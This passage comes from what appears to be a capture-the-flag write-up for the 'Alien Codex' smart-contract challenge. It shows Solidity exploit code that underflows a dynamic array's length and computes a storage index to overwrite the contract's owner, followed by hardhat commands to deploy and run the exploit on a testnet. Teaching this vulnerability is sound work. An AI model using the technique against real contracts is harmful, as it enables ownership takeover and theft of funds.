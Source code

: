 ```solidity
        IAlienCodex codex = IAlienCodex(alienCodex);
        
        // Step 1: Call makeContact to pass the contacted modifier
        codex.makeContact();
        
        // Step 2: Call retract() to underflow the array length
        // This makes the array length 2^256-1, so we can access any storage slot
        codex.retract();
        
        // Step 3: Calculate the index to overwrite the owner slot
        // The owner variable is inherited from the Ownable contract and is at slot 0
        // The codex array is at slot 1 (contact is a bool at slot 0 with the owner)
        // We need to find i where keccak256(1) + i = 0 (mod 2^256)
        // This means i = 0 - keccak256(1) (mod 2^256)
        uint256 arraySlot = 1;
        uint256 arrayIndex = uint256(2**256 - 1) - uint256(keccak256(abi.encode(arraySlot))) + 1;
        
        // Step 4: Use revise to overwrite the owner address at the calculated index
        // We need to convert the address to bytes32, padding with zeros on the left
        codex.revise(arrayIndex, bytes32(uint256(uint160(_newOwner))));
    }

    // Function to check if the exploit worked by reading the owner
    function checkOwner() external view returns (address) {
        return IAlienCodex(alienCodex).owner();
    }
}
```

### Execution Steps

1. **Deploy the AlienCodex Contract**:
   ```shell
   npx hardhat deploy --tags alien-codex --network sepolia
   ```

2. **Deploy the AlienCodexExploit Contract**:
   ```shell
   TARGET_ADDRESS=0xYourAlienCodexAddress npx hardhat deploy --tags alien-codex-solution --network sepolia
   ```

3. **Execute the Exploit**:
   ```shell
   ALIEN_CODEX_EXPLOIT_ADDRESS=0xYourExploitAddress TARGET_ADDRESS=0xYourAlienCodexAddress npx hardhat run scripts/level-19-alien-codex/execute-alien-codex-exploit.ts --network sepolia
   ```

## Key Insights

1. **Storage Layout Understanding**: This challenge demonstrates the importance of understanding how Solidity stores variables in contract storage, especially the storage pattern for dynamic arrays.
